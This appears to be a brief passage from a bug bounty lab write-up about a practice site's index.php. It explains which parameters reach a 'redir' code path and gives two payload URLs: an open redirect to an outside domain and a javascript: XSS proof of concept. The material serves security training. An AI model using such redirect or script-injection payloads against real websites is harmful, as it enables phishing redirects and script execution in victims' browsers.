

For accessing “redir” we have to enter into the first else loop and then into if loop. So we have to send parameters from=(anything but NULL) & type=1
Payload for Open Redirect URL:
https://www.bugbountytraining.com/fastfoodhackings/index.php?from=1&type=1#redir=//youtube.com
Payload for XSS:
https://www.bugbountytraining.com/fastfoodhackings/index.php?from=1&type=1#redir=javascript:alert(0)